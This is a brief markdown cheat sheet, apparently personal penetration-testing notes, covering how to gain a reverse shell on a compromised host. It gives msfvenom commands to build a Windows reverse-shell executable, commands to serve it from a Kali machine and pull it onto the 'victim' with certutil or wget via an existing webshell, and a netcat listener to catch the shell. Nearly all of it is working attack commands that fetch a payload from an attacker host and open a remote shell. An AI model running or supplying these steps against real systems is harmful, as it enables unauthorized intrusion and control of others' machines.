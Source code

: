 
## Generate shell with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell-x86.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
```

## Setup a netcat listener on Kali
```
nc -nlvp <PORT_from_msfvenom>
```
